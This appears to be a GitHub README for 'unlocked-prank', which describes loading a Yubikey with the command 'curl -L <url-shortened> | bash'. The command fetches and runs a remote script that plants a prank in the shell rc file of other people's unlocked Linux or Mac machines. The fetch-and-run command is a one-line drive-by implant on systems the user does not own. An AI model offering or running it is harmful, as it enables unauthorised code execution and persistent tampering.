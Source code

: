 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl -L <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
Linux, and implant a fun prank into their shell rc.  Presently only supports bash.

For your piece of mind I recommend checking my implant.sh, forking and using your own copy as you probably don't want to trust my script being executed on other peoples machines.
